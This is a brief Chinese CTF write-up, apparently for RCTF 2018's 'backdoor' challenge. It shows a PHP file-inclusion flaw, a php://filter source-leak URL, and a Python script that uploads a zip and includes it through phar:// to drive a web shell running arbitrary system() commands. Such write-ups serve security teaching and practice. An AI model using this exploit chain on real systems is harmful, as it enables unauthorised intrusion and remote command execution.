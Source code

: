 说明，不用登录。

查看post.php，发现可能存在LFI。

index.php,没啥用

> http://backdoor.2018.teamrois.cn/post.php?action=php://filter/read=convert.base64-encode/resource=index

post.php

```
<?php
error_reporting(0);
include $_GET['action'] . '.php';
```

uploa.php

```
<?php
if (!isset($_FILES['file'])) exit;
$file = $_FILES['file'];
$zip = new ZipArchive();
if (true !== $zip->open($file['tmp_name'])) {
	echo 'No a valid zip';
	exit;
}
if (false === $zip->getFromName('tmp/random.txt')) {
	echo 'No file';
	exit;
}

$dest = 'uploads/' . md5($_SERVER['REMOTE_ADDR']) . hash('sha256', file_get_contents($file['tmp_name'])) . '.zip';
move_uploaded_file($file['tmp_name'], $dest);
echo 'Saved into ' . $dest;
```

利用zip://或者phar://包含。

```python
import requests

s = "Saved into "
post_url = "http://backdoor.2018.teamrois.cn/post.php?action=upload"
zip_file = open("tmp.zip","rb")
upload_file = {'file':zip_file}
r = requests.post(post_url,files=upload_file)
dest = r.text[len(s):]
shell_url = "http://backdoor.2018.teamrois.cn/post.php?action=phar://"+ dest + "/evil"
print("[*] shell url: " + shell_url)
while  True:
    command = input("command: ")
    payload = {'chybeta': 'system("%s");' % command}
    r = requests.get(shell_url,params=payload)
    print(r.text)
```
